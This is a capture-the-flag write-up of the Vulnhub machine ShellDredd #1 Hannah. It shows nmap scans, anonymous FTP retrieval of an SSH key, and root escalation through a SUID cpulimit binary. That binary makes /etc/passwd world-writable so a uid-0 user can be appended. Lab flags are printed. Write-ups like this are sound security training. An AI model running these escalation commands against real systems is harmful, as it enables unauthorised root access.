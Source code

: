 ```yaml
---
title: Vulnhub - OnSystem ShellDredd #1 Hannah
description: My writeup on OnSystem ShellDredd 1 Hannah box.
categories:
 - vulnhub
tags: vulnhub ssh etcpasswd cpulimit
---
```


![](https://i.imgur.com/LeUKXhe.png)

You can find the machine there > [OnSystem ShellDredd #1 Hannah](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/){:target="_blank"}

## Summary

This box was a really easy one, starting off by login into FTP anonymous and grab hannah's SSH private key this will give us a low low-privilege shell. Rooting the box is a bit tricky because the cpulimit SUID doesn't allow us to spawn a root shell directly. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.7 
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-15 12:59 EEST
Nmap scan report for shelldredd.zte.com.cn (192.168.1.7)
Host is up (0.00016s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
61000/tcp open  unknown
MAC Address: 08:00:27:F6:95:7A (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.40 seconds
$ nmap -p 21,61000 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-15 12:59 EEST
Nmap scan report for shelldredd.zte.com.cn (192.168.1.7)
Host is up (0.00038s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
```

No web stuff interesting, let's login into FTP since we have anonymous. There we can find a SSH private key.

```
$ ftp $ip
Connected to 192.168.1.7.
220 (vsFTPd 3.0.3)
Name (192.168.1.7:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06 16:56 .
drwxr-xr-x    3 0        115          4096 Aug 06 16:56 ..
drwxr-xr-x    2 0        0            4096 Aug 06 16:54 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            1823 Aug 06 16:54 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
226 Transfer complete.
1823 bytes received in 0.00 secs (2.0599 MB/s)
```

## Shell as hannah

Since the key is in hannah's folder, we have the username and now we can login in.

```
$ chmod 600 id_rsa 
$ ssh -i id_rsa hannah@$ip -p 61000

hannah@ShellDredd:~$ whoami;id
hannah
uid=1000(hannah) gid=1000(hannah) grupos=1000(hannah),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

## Shell as root

Doing the classic enumeration, i found out an interesting SUID.

```
hannah@ShellDredd:~$ find / -uid 0 -perm -4000 -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
```

I checked the [gtfobins](https://gtfobins.github.io/gtfobins/cpulimit/){:target="_blank"} page but there is no SUID option.. hm anyway i tried to execute the same command but no luck gaining a root shell.

```
hannah@ShellDredd:~$ cpulimit -l 100 -f /bin/sh
Process 667 detected
$ whoami
hannah
```

But if we run an another command like "whoami" we can get command execution as root!

```
hannah@ShellDredd:~$ cpulimit -l 100 -f whoami
Process 671 detected
root
Child process is finished, exiting...
```

So now i found a way to gain root shell, i'll make `/etc/passwd` writable and we will add a root user in! :sunglasses:

```
hannah@ShellDredd:~$ cpulimit -l 100 -f chmod o+w /etc/passwd
Process 678 detected
Child process is finished, exiting...
hannah@ShellDredd:~$ ls -la /etc/passwd
-rw-r--rw- 1 root root 1541 ago  6 16:43 /etc/passwd
```

Let's generate a password now for the user.

```
$ openssl passwd -6 -salt xyz pwned    
$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1
```

This will be our "payload":

```
pwned:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0::/root:/bin/bash
```

Let's add it in & get root shell! :fire:

```
hannah@ShellDredd:~$ nano /etc/passwd
hannah@ShellDredd:~$ cat /etc/passwd | tail -1
pwned:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0::/root:/bin/bash
hannah@ShellDredd:~$ su - pwned
Contraseña: 
root@ShellDredd:~# whoami;id
root
uid=0(root) gid=0(root) grupos=0(root)
```

Let's read the flags:

```
root@ShellDredd:~# cat root.txt 
yeZCB44MPH2KQwbssgTQ2Nof
root@ShellDredd:~# cat /home/hannah/user.txt 
Gr3mMhbCpuwxCZorqDL3ILPn
```

Enjoyed this privesc! :smile:
